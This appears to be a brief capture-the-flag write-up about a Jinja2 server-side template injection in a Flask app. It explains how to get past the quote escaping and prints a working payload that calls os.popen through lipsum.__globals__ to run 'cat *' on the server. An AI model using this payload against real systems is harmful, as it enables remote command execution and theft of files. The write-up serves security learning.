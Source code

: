 The data inside the object is rendered twice, leading to a SSTI vulnerability. The only catch is that you can't use quotes, because `render_template_string` renders the quotes as the html object instead. To get around this, you can use `request.form.blob` to access the blob string itself.

Pretty much any of the payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2) should work, see my exploit below.


```
[
    {
        "repo_name": "{{lipsum.__globals__.os.popen(request.form.blob[181:186]).read()}}",
        "flaky_tests": 9001,
        "prs_blocked": 2,
        "time_lost": "cat *"
    }
]
```